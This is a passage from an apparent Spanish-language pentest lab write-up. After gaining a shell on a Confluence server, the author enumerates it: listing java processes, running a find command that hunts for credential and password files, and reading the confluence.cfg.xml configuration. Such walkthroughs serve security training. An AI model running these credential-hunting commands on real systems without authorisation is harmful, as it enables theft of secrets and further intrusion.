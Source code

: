 2. Cambiamos los parametros necesarios, ejecutamos nuestro receptor y luego ejecutmos el payload para obtener acceso al servidor _**confluence**_

#### Paso 3: Enumeramos el servidor _confluence_ en busqueda de informacion sensible
> La idea es buscar directorios de configuracion y procesos que esten ejecutando java 
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ps aux | grep java
ps aux | grep java
conflue+    2656 10.0 46.4 4219512 1870856 ?     Sl   19:09   4:22 /opt/atlassian/confluence/jre//bin/java -Djava.util.logging.config.file=/opt/atlassian/confluence/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -Datlassian.plugins.startup.options= -Dorg.apache.tomcat.websocket.DEFAULT_BUFFER_SIZE=32768 -Dconfluence.context.path= -Djava.locale.providers=JRE,SPI,CLDR -Dsynchrony.enable.xhr.fallback=true -Datlassian.plugins.enable.wait=300 -Djava.awt.headless=true -Xloggc:/opt/atlassian/confluence/logs/gc-2025-03-18_19-09-55.log -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=5 -XX:GCLogFileSize=2M -Xlog:gc+age=debug:file=/opt/atlassian/confluence/logs/gc-2025-03-18_19-09-55.log::filecount=5,filesize=2M -XX:G1ReservePercent=20 -XX:+UseG1GC -XX:+ExplicitGCInvokesConcurrent -XX:+PrintGCDateStamps -XX:+IgnoreUnrecognizedVMOptions -XX:ReservedCodeCacheSize=256m -Xms1024m -Xmx1024m -Dignore.endorsed.dirs= -classpath /opt/atlassian/confluence/bin/bootstrap.jar:/opt/atlassian/confluence/bin/tomcat-juli.jar -Dcatalina.base=/opt/atlassian/confluence -Dcatalina.home=/opt/atlassian/confluence -Djava.io.tmpdir=/opt/atlassian/confluence/temp org.apache.catalina.startup.Bootstrap start
conflue+    2880  0.8 10.0 4853440 403496 ?      Sl   19:11   0:21 /opt/atlassian/confluence/jre/bin/java -classpath /opt/atlassian/confluence/temp/4.0.0-master-3b3337da.jar:/opt/atlassian/confluence/confluence/WEB-INF/lib/postgresql-42.2.18.jar -Xss2048k -Xmx2g synchrony.core sql
conflue+    4213  0.0  0.0   6300   720 ?        S    19:53   0:00 grep java
```
> No encontramos algo demasiado interesante analizando los procesos, buscamos en _**directorios de configuracion**_

- Podemos buscar archivos con nombres reelevantes:
`find / -type f \( -iname '*config*' -o -iname '*settings*' -o -iname '*credentials*' -o -iname '*database*' -o -iname '*password*' \) 2>/dev/null`
- Podemos buscar archivos modificador recientemente en el directorio de _confluence_
```
confluence@confluence01:/opt/atlassian/confluence/bin$ find /var/atlassian -type f -mtime -7 2>/dev/null
<$ find /var/atlassian -type f -mtime -7 2>/dev/null   
/var/atlassian/application-data/confluence/confluence.cfg.xml
/var/atlassian/application-data/confluence/logs/atlassian-diagnostics.log
/var/atlassian/application-data/confluence/logs/atlassian-confluence.log
/var/atlassian/application-data/confluence/logs/atlassian-synchrony.log
/var/atlassian/application-data/confluence/logs/atlassian-confluence-profiler.log
```
> El archivo xml es intresante
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ls -lah /var/atlassian/
<t/atlassian/confluence/bin$ ls -lah /var/atlassian/   
total 12K
drwxr-xr-x  3 root root 4.0K Sep  9  2022 .
drwxr-xr-x 14 root root 4.0K Sep  9  2022 ..
drwxr-xr-x  3 root root 4.0K Sep  9  2022 application-data
```
> Observamos el archivo xml
```
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml
<sian/application-data/confluence/confluence.cfg.xml   
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
```